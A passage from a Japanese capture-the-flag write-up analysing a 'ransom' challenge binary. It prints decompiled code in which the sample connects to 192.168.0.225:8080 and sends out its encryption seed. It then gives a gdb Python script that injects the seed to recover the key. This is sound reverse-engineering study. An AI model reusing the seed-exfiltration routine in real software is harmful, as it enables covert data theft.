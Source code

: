 ``` c
}
else {
    local_128._0_2_ = 2;
    local_124 = inet_addr("192.168.0.225");
    local_128._2_2_ = htons(0x1f90);
    iVar1 = connect(__fd,(sockaddr *)local_128,0x10);
    if (iVar1 == 0) {
    write(__fd,__buf,0x11);
    uVar2 = 0;
    }
    else {
    perror("Failed to connect");
    uVar2 = 1;
    }
}
```

Flagの暗号化に使用されたseedは与えられたpcapファイルから取得できたので、次は暗号化のロジックを特定していくことにしました。

seedを元に暗号化を行う箇所を見てみると、`0x555555555381`の関数でseedを元に暗号鍵を生成し、その鍵を使ってFlagを暗号化していることがわかりました。

![image-20220605012625271](../../static/media/2022-ctf-sec4b-2022/image-20220605012625271.png)

`0x555555555381`の関数で生成される暗号鍵はseedの値に付き一意になるので、gdbを使って`0x555555555381`の関数に与えられるseedの値を改ざんし、その出力結果をメモリからキャプチャすることで簡単に取得することができました。

``` python
# gdb -x run.py
import gdb

BINDIR = "/home/ubuntu/Downloads"
BIN = "ransom"

gdb.execute('file {}/{}'.format(BINDIR, BIN))
gdb.execute('b *{}'.format("0x5555555555b9"))
gdb.execute('b *{}'.format("0x5555555555e6"))
gdb.execute('run')

seed = "rgUAvvyfyApNPEYg"
for i, c in enumerate(seed):
    target = hex(0x5555555592a0 + i)
    print('set {}{} = {}'.format("{char}", target, hex(ord(c))))
    gdb.execute('set {}{} = {}'.format("{char}", target, hex(ord(c))))

gdb.execute('x/s 0x5555555592a0')
gdb.execute('continue')

i = gdb.inferiors()[0]
mem = i.read_memory(0x7fffffffdaa0, 264)
key = mem.tobytes()
```
